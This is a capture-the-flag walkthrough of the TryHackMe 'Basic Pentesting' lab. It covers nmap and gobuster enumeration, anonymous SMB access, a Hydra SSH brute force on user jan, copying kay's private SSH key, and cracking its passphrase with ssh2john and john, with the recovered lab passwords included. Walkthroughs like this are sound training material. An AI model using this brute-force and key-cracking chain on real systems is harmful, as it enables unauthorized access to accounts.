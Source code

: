 # Basic Pentesting

I can use nmap for this

```
nmap $TIP

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-16 03:51 BST
Nmap scan report for ip-10-10-253-89.eu-west-1.compute.internal (10.10.253.89)
Host is up (0.00023s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
MAC Address: 02:ED:C9:2B:84:E1 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.68 seconds
```

We've found quite a bunch of open ports. Let's try them

### HTTP

If we go to the browser and use our target IP with port 80, the screen greet us with

![](/images/thm/basic-pentesting/0.png)

It doesn't look like much but the HTML has an interesting comment that, maybe, points to a new endpoint?

```html
<html>
  <h1>Undergoing maintenance</h1>
  <h4>Please check back later</h4>
  <!-- Check our dev note section if you need to know what to work on. -->
</html>
```

Maybe a quick dir enumeration will give us something new. Let's launch `gobuster`

```
~# gobuster dir -u /usr/share/wordlists/dirb/common.txt -u $TIP

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.253.89
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/10/16 04:05:38 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/development (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2024/10/16 04:05:38 Finished
===============================================================
```

_Note:_ `/usr/share/wordlists/` is a directory that contains usefuls word lists, and comes with a Kali Linux installation.

And it found something! `/development` returned a 301 Moved Permanently status code. Just for fun, let's where the `Location` header points

```
~# curl $TIP/development -i

HTTP/1.1 301 Moved Permanently
Date: Wed, 16 Oct 2024 03:24:24 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://10.10.253.89/development/
Content-Length: 318
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.10.253.89/development/">here</a>.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.253.89 Port 80</address>
</body></html>
```

Nice. Let's go to `/development/` and see what is there

![](/images/thm/basic-pentesting/1.png)

We now know, as a bonus, that the web app is running Apache 2.4.18, in Ubuntu! There are two notes.
The first one tell us that

- There might be something like https://struts.apache.org/plugins/rest/ running, with version 2.5.12
- There is an SMB service running.

The second one reveals that the user J has a very weak password and points to /etc/shadow.

The thing running on port 8009 is AJP, which is a protocol optimized to work with Tomcat
and Apache.

```
~# nmap -p8009 -sV -sC $TIP

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-16 05:07 BST
Nmap scan report for ip-10-10-253-89.eu-west-1.compute.internal (10.10.253.89)
Host is up (0.00017s latency).

PORT STATE SERVICE VERSION
8009/tcp open ajp13 Apache Jserv (Protocol v1.3)
| ajp-methods:
|\_ Supported methods: GET HEAD POST OPTIONS
MAC Address: 02:ED:C9:2B:84:E1 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds
```

Doesn't look useful at the moment. Let's go back and point our attention to the SMB client running in port 445.

```
~# smbclient -L $TIP
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:

    Sharename       Type      Comment
    ---------       ----      -------
    Anonymous       Disk
    IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)

Reconnecting with SMB1 for workgroup listing.

    Server               Comment
    ---------            -------

    Workgroup            Master
    ---------            -------
    WORKGROUP            BASIC2
```

We have two shares `Anonymous` and `IPC$`. Let's try to connect to the first one

```
~# smblcient //$TIP/Anonymous
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 18:31:20 2018
  ..                                  D        0  Thu Apr 19 18:13:06 2018
  staff.txt                           N      173  Thu Apr 19 18:29:55 2018

smb: \> more staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Now we know two possible usernames: Jan and Kay. Let's try to go through the ssh port and brute force Jan's password
with Hydra: `hydra -l jan -P /usr/share/wordlists/rockyou.txt $TIP ssh`

After some time we got it! Jan's password is `armando`. Time to logn as jan: `ssh jan@$TIP`. On success, if we go to
`/home`, we see that there are two users folders `jan` and `kay`. In Kay's home folders there is a mysterious file
called `pass.bak`, a BAK file is a backup file. Of course jan doesn´t have enough privileges to list the file's
contents: `cat pass.bak` results in permission denied. In fact

```
jan@basic2:/home/kay$ ls -l
total 4
-rw------- 1 kay kay 57 Apr 23  2018 pass.bak
```

Another quick `ls` in Kay's home dir reveals the `.ssh` dir. Now we can grab the private key and copy it to our machine.
If we try to SSH as kay: `ssh -i kay_priv_key.txt kay@$TIP`, we see that it's protected by a passprhase(don't forget to do
`sudo chmod 600 kay_priv_key` first). What can be done?

I was quite lost here. The ![writeup](https://medium.com/@aycagl/basic-pentesting-walkthrough-tryhackme-f37a530bfce5) by
Ayça Gül saved me. We have the private key but the passphrase is missing. We are going to crack it with a the tools called
`ssh2john` and `john`. To find the first one we can do `locate ssh2john`, in my case it was in `/opt/john/ssh2john.py`.
It's used as `/opt/john/ssh2john.py kay_priv_key > decrypted.txt`. Now it's time to launch john

```
john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt
```

And we got the passphrase!

```
---snip---
beeswax          (kay_priv_key)
1g 0:00:00:11 DONE (2024-10-17 04:00) 0.08561g/s 1227Kp/s 1227Kc/s 1227KC/s *7¡Vamos!
Session completed.
```

Now can login as kay, enter the passphrase and, finally, do `cat pass.bak` to get the last flag.

# References

- https://www.linuxfordevices.com/tutorials/linux/hydra-brute-force-ssh
